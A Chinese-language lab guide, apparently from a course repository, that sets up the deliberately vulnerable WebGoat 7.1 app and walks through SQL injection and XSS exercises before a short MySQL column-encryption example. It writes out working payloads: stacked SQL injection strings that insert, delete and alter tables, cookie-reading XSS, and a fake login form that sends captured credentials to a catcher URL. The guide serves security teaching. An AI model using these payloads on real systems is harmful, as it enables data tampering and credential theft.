 # SQL Injection 與 XSS攻擊手法
- 下載 Java
  - 網址：https://java.com/zh_TW/download/manual.jsp
  - 檔名：jre-8u281-windows-x64.exe
- 安裝 Java
  - 執行 jre-8u281-windows-x64.exe
- 下載 WebGoat 7.1
  - 網址：https://github.com/WebGoat/WebGoat/releases/tag/7.1
  - 檔名：webgoat-container-7.1-exec.jar
- 安裝 WebGoat 7.1
  - 開啟命令提示字元視窗並執行以下指令：
    - java -jar webgoat-container-7.1-exec.jar
  - 開啟 Chrome 瀏覽器輸入 http://localhost:8080/WebGoat
  - 登入帳號 guest 與通行碼 guest

## SQL Injection 測試步驟
- Numeric SQL Injection
  - 數字欄位(點選 Injection Flaws > Numeric SQL Injection)
  - 在網址列輸入 http://localhost:8080/WebGoat/start.mvc#attack/515/1100?Screen=75&menu=1200&station=101 or 1=1並檢視查詢的結果
- String SQL Injection
  - 文字欄位(點選 Injection Flaws > String SQL Injection)
  - 在 Last Name 欄位輸入「S' or '1'='1」or 「1' or '1'='1」並檢視查詢的結果
  - 在 Last Name 欄位輸入「alice';select * from salaries where '1'='1」並檢視查詢的結果
  - 在 Last Name 欄位輸入「alice';insert into salaries (userid,salary)values ('steven',100);select * from salaries where '1'='1」檢視增加的結果
  - 在 Last Name 欄位輸入「alice';delete from salaries where userid='steven」後，再重新輸入「jsmith' ; select * from salaries where '1'='1」並檢視刪除的結果
  - 在 Last Name 欄位輸入「alice' ; ALTER table salaries add temp char(255); select * from salaries where '1'='1」並檢視增加的結果

![String SQL Injection](./StringSQLI.png)
## XSS 測試步驟
- Stored XSS
  - 點選 Cross-Site Scripting(XSS) > Stored XSS Attack)
  - 在 Title 欄位輸入「<script>alert('XSS');</script>」並檢視顯示的結果
- Reflected XSS
  - 點選 Cross-Site Scripting(XSS) > Phishing with XSS)
  - 在 Search 欄位輸入「<script>alert('XSS');</script>」並檢視顯示的結果
  - Search 欄位輸入「<script>alert(document.cookie);</script>」並檢視顯示的 Cookie 值
  - 在 Search 欄位輸入下列資料，輸入完成後，檢視輸入「Account」與「Password」的結果
```
</form> 
<script> 
function hack(){ 
    var user = document.loginform.user.value; 
    var pass = document.loginform.pass.value; 
    alert("User:" + user + "\nPass:" + pass); 
    XSSImage=new Image;   
XSSImage.src="http://localhost/webgoat/catcher?PROPERTY
=yes&user="+ user + "&password=" + pass; 
}   
</script> 
<form name="loginform" ><br><br><HR> 
<H3>這個功能需要您的帳號登入(Please  input  your  account, 
again):</H3 ><br><br> 
Account:<br><input type="text" name="user"><br> 
Password:<br><input type="password" name = "pass"><br> 
<input  type="submit"  name="login"  value="login" 
onclick="hack()"> 
</form><br><br><HR>
```
# 資料表欄位加密
- 資料表範例
- 建立資料表
```sql
CREATE TABLE employee( 
name char(20), 
username varbinary(255), 
password varbinary(255) 
)
```
- 於資料表內建立資料，同時使用加密函數將機敏資料欄位加密
```sql
INSERT INTO employee (name, username, password) values 
("johnchang",AES_ENCRYPT("john","peter1234"), 
AES_ENCRYPT ("12345","peter1234")) 
```
- 顯示加密資料
```
SELECT *, AES_DECRYPT(username, 'peter1234') 
DECOE_username, AES_DECRYPT (password, 'peter1234') 
DECOE_password FROM employee
```
````
